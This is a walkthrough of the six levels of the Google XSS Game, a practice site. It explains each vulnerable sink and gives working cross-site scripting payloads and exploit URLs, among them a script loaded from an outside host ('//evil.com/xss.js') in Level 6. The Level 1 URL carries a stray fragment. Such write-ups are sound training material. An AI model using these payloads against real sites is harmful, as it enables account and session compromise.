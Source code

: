 # Google XSS Game Walkthrough (Levels 1–6)

A complete write-up of all six levels of the [Google XSS Game](https://xss-game.appspot.com), showcasing how each level demonstrates a different form of Cross-Site Scripting (XSS).

---

## [1/6] Level 1: Hello, World of XSS

1.	Objective: Trigger an alert by injecting JavaScript into the query URL parameter.
 ![challenge1]( challenge/1.png)
2.	Code Behavior: 
  a.	The application reflects the query parameter into the page without sanitization:
  b.	 ![code1](code/1.png)
3.	Vulnerability
  a.	Reflected Cross-Site Scripting (XSS):
  b.	User input is placed directly into the DOM using .innerHTML without sanitization or escaping. 
4.	Payload: <script>alert(1)</script>
5.	Exploit URL: https://xss-game.appspot.com/level1/frame?query=<script>alert(1)</script>ipt>
![result1](result/1.png)
---

## [2/6] Level 2: Persistence Is Key

1.	Objective: Exploit stored XSS by injecting JavaScript into a message field that will be saved and later reflected into the page.
 ![challenge2]( challenge/2.png)
2.	Code Behavior
   a.	 ![code2](code/2.png)
3.	Vulnerability
  a.	Stored XSS (DOM-based):
  b.	User input is unsafely embedded into the DOM using .innerHTML, allowing script execution.
4.	Payload: <img src=x onerror=alert(1)>
![result2](result/2.png)
---

## [3/6] Level 3: That Sinking Feeling...
1.	Objective: Trigger XSS by injecting into a JavaScript sink that uses user input to build and insert raw HTML.
 ![challenge3]( challenge/3.png)
2.	Code Behavior
   a.	 ![code3](code/2.png)
   b.	The app reads input from location.hash and passes it to chooseTab().
  d.	Inside chooseTab(num), your input is used to dynamically build HTML
  e.	This creates a string of HTML with your input directly inserted into an <img> tag’s src attribute using .html() — a dangerous sink.
3.	Vulnerability
  a.	DOM-based reflected XSS
  b.	No input validation or sanitization
  c.	Direct insertion into HTML via .html() with attacker-controlled num
  d.	Allows attribute injection and event handler execution (e.g., onerror)
4.	Payload: #1'%20onerror='alert(1)
5.	Exploit URL: https://xss-game.appspot.com/level3/frame#1'%20onerror='alert(1)
![result3](result/3.png)
---

## [4/6] Level 4: Context Matters
1.	Objective: Trigger a DOM-based reflected XSS by exploiting how the application uses location.hash to dynamically build an HTML element using jQuery.
 ![challenge4]( challenge/4.png)
2.	Code Behavior
  a.	 ![code4](code/4.1.png)
  b.	 ![code4](code/4.2.png)
  c.	The app dynamically builds JavaScript using this pattern:
  d.	Your input from the location.search (the part after ?) is directly inserted into a JavaScript string, which is then executed via setTimeout().
3.	Vulnerability
  a.	DOM-based Reflected XSS in JavaScript string context
  b.	Unescaped user input is inserted into a JavaScript string and executed
  c.	Allows attackers to close the existing expression and inject arbitrary JavaScript
4.	Payload: 1');alert(1);//
5.	Exploit URL: https://xss-game.appspot.com/level4/frame?timer=1%27%29%3Balert%281%29%3B%2F%2F
![result4](result/4.png)
---

## [5/6] Level 5: Breaking Protocol
1.	Objective: Trigger JavaScript execution by injecting a javascript: URI into a link — without using <script> or onclick.
 ![challenge5]( challenge/5.png)
2.	Code Behavior: 
  a.	 ![code5](code/5.1.png)
  b.	 ![code5](code/5.2.png)
  c.	The application builds a confirmation page based on the next parameter and does this
  d.	Your next value is:
    i.	Embedded directly into the href attribute
    ii.	Later executed as a redirect URL
3.	Vulnerability
  a.	DOM-based XSS via href="..." and window.location
  b.	No validation or sanitization of the next parameter
  c.	Allows injection of javascript: protocol URIs, which are executable links
4.	Payload: javascript:alert(1)
5.	Exploit URL: http://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
![result5](result/5.png)
---

## [6/6] Level 6: Follow the 🐇
1.	Objective: Trigger XSS by injecting an external script file, even though the app tries to block URLs that start with http:// or https://.
![challenge6]( challenge/6.png)
2.	Code Behavior:
  a.	 ![code6](code/6.png)
  b.	The app dynamically creates a <script> tag using input from the URL hash (#)
3.	Vulnerability
  a.	DOM-based XSS via external script injection
  b.	App blocks only http:// and https://, but not //domain.com
  c.	You can bypass the filter using a protocol-relative URL, like //evil.com/xss.js
4.	Payload: //cdn.jsdelivr.net/gh/naorlivne/poc/xss.js ( Where that file contains: alert(1); )
5.	Exploit URL: https://xss-game.appspot.com/level6/frame#//cdn.jsdelivr.net/gh/naorlivne/poc/xss.js
![result6](result/6.png)
---

## Summary Table

| Level | Vulnerability Type        | Input Source  | Sink               | Payload Example                |
| ----- | ------------------------- | ------------- | ------------------ | ------------------------------ |
| 1     | Reflected XSS             | URL Query     | `.innerHTML`       | `<script>alert(1)</script>`    |
| 2     | Stored DOM XSS            | Message field | `.innerHTML`       | `<img src=x onerror=alert(1)>` |
| 3     | DOM Reflected XSS         | URL Hash      | `.html()`          | `#1'%20onerror='alert(1)`      |
| 4     | DOM Reflected XSS (JS)    | URL Query     | `setTimeout(...)`  | `1');alert(1);//`              |
| 5     | Protocol-based XSS        | URL Query     | `href`, redirect   | `javascript:alert(1)`          |
| 6     | Script Injection via Hash | URL Hash      | `<script src=...>` | `#//evil.com/script.js`        |

---

Created by: **Praful Mardhekar**\
Cyber Security & Offensive Security Enthusiast

